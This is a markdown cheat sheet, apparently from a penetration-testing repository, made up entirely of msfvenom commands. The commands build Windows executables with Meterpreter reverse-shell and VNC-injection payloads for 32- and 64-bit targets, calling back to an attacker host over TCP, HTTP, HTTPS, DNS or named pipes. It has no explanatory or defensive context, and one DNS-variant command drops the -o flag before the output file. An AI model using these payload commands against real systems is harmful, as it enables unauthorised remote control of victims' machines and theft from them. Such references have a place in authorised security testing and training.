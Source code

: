 # Reverse Shells

## Interactive Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x64.exe`

## VNC

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`